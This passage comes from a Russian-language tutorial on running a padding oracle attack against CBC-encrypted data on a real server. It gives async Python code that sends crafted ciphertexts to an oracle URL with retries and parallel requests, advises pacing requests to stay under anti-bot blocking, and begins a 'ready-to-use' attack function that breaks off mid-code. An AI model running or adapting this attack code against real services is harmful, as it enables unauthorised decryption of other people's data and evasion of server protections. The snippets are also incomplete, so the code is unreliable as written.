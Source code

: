 ## Обработка ошибок сети и параллелизация

При взаимодействии с реальным сервером важно учитывать сетевые сбои. Мы можем добавить:

* переотправку запроса при таймауте или сбое соединения (несколько попыток с экспоненциальной задержкой);
* лимит одновременных запросов: используя `asyncio` вместе с `aiohttp` или пул потоков (`concurrent.futures.ThreadPoolExecutor`);
* умное управление частотой запросов, чтобы не вызвать блокировку со стороны anti-bot.

Например, с `asyncio` можно организовать так:

```python
import asyncio
import aiohttp

async def request_padding_async(session, cipher_bytes, url):
    cipher_b64 = base64.b64encode(cipher_bytes)
    for attempt in range(3):
        try:
            async with session.post(url, data=cipher_b64, timeout=5) as resp:
                return resp.status == 200
        except asyncio.TimeoutError:
            await asyncio.sleep(2 ** attempt)
    return False

async def padding_oracle_attack_async(cipher, block_size, oracle_url):
    blocks = [cipher[i:i+block_size] for i in range(0, len(cipher), block_size)]
    recovered = b''
    async with aiohttp.ClientSession() as session:
        for i in range(1, len(blocks)):
            # аналогичный синхронному алгоритму, только внутри вызываем
            # await request_padding_async(session, test_cipher, oracle_url)
            ...
    return recovered
```

Такая реализация позволяет одновременно угадывать байты нескольких позиций и значительно ускоряет атаку при достаточном сетевом канале.

## Универсальная функция `padding_oracle_attack`

Для удобства обернём всё в одну функцию с подробными комментариями, готовую к использованию в любом проекте:

```python
def padding_oracle_attack(cipher: bytes, block_size: int, oracle_url: str,
                          max_retries: int = 3, concurrency: int = 5) -> bytes:
    """
    Выполняет Padding Oracle атаку на CBC-шифротекст.

    :param cipher: полный шифротекст (с IV первым блоком)
    :param block_size: размер блока в байтах (для AES = 16)
    :param oracle_url: URL padding oracle (POST, base64)
    :param max_retries: число попыток при сетевых ошибках
    :param concurrency: число параллельных задач (asyncio)
    :return: восстановленный открытый текст (bytes)
    """
    # 1. Разбиваем на блоки
    blocks = [cipher[i:i+block_size] for i in range(0, len(cipher), block_size)]
    # 2. Инициализируем результат
    recovered = bytearray()
    # 3. Для каждого блока после IV запускаем атаку
    for b in range(1, len(blocks)):
        C_prev = blocks[b - 1]
        C_curr = blocks[b]
```